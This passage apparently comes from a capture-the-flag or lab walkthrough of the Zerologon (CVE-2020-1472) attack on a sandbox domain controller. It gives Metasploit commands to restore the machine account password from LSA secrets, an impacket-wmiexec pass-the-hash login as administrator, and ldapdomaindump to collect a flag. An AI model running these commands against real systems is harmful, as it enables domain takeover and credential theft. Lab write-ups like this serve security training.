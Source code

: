 ![Screenshot](14.6/image5.png)
15. Now that we have obtained the old machine account password from LSA secrets, we can run the exploit again from msf, but in password recovery mode:
```bash
$msfconsole

msf6> use auxiliary/admin/dcerpc/cve_2020_1472_zerologon

msf6> set RHOSTS 192.168.0.178

msf6> set NBNAME DC1
```
16. The options will remain the same, except for two new ones: ACTION - action selection and PASSWORD - machine account password values in HEX:
```bash
msf6> set ACTION RESTORE

msf6> set PASSWORD <$MACHINE.ACC hex password>
```
17. Recover the password:
```bash
msf6> run
```
18. Make sure that access is preserved:
```bash
$ impacket-wmiexec -hashes <hash> 'sandbox.local/administrator@192.168.0.178'
```
19. Using ldapdomaindump to get the second flag:
![Screenshot](14.6/photo_2023-08-21_14-08-02.jpg)
![Screenshot](14.6/photo_2023-08-21_14-10-41.jpg)
